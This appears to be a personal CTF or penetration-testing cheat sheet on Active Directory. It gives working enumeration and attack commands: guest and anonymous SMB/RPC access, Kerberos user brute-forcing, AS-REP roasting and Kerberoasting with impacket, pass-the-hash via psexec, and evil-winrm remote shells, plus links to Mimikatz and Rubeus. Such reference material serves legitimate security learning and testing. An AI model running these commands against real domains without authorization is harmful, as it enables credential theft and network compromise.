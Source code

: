 ```yaml
---
title: Active Directory
---
```


# Active Directory
- [gcholette docs AD Privesc](https://docs.gcholette.com/docs/ctf/privesc/privesc_ad)
- [Hacktricks AD](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
- [Hackthebox AD cheatsheet](https://www.hackthebox.com/blog/active-directory-penetration-testing-cheatsheet-and-guide)

## Enum
### enum4linux
 - [enum4linux](https://github.com/CiscoCXSecurity/enum4linux)
```bash
enum4linux -a -u "" -p "" $targetdomain && enum4linux -a -u "guest" -p "" $targetdomain
```

### crackmapexec
- [crackmapexec](https://github.com/Porchetta-Industries/CrackMapExec)
```bash
crackmapexec smb $targetdomain -u 'anonymous' -p '' --rid-brute
```

### kerbrute
- [kerbrute](https://github.com/ropnop/kerbrute)
- [xato-net-10-million-usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt)
```bash
./kerbrute_linux_amd64 userenum -d $targetdomain --dc $targetdc /usr/share/wordlists/xato-net-10-million-usernames.txt 
```

### rpcclient
- [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)
```bash
rpcclient -U guest $targetdomain
```

### smbclient
- [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
```bash
smbclient \\\\$targetdomain\\C$ -U guest
```

### impacket
- [impacket](https://github.com/fortra/impacket)
```bash
python GetNPUsers.py $targetdomain/ -usersfile users.txt -dc-ip $targetdomain
```
```bash
python GetUserSPNs.py -request -dc-ip $targetdomain $targetdomain/guest -no-pass
```
```bash
python mssqlclient.py -p 1433 -windows-auth -dc-ip $targetdomain "$targetdomain/$targetusername:$targetpassword"@$targetdomain
```
```bash
python psexec.py -hashes hhhhhhhhh:hhhhhhhhh $targetadmin@$targetdomain
```

## Exploit
- [WADComs](https://wadcoms.github.io/)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [certipy](https://github.com/ly4k/Certipy)
- [Certify](https://github.com/GhostPack/Certify)

### evil winrm
- [evil-winrm](https://github.com/Hackplayers/evil-winrm)
  - `gem install evil-winrm`

```bash
evil-winrm  -i $targetdomain -u $targetuser@$targetdomain -p $targetpassword
```
